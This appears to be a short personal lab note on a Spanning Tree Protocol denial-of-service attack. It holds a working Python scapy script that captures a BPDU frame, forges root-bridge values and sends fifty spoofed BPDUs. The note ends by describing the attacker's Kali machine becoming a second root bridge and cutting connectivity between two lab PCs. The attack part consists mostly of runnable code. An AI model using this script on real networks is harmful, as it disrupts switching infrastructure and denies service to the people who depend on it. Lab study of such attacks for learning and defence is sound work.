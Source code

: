 ## STP -> DoS
![[Pasted image 20250427000337.png]]

```
#!/usr/bin/env python3
#Import scapy
from scapy.all import *
#Capture STP frame
pkt = sniff(filter="ether dst 01:80:c2:00:00:00",count=1)    

#Block port to root switch
#Set cost to root to zero
pkt[0].pathcost = 0
pkt[0].priority = 0

#Set bridge MAC to root brige
pkt[0].bridgemac = pkt[0].rootmac
#Set port ID to 1
pkt[0].portid = 1

#Loop to send multiple BPDUs
for i in range (0, 50):
    pkt[0].show()
    sendp(pkt[0], loop=0, verbose=1)
    time.sleep(1)
```

Conclusion : 
Our Kali Device becomes a 'second root bridge' and now since Port F1/0 on ESW3 and Port F1/2 on ESW1 is in blocking state, PC1 will no longer be able to ping PC2 thus creating a denial of service.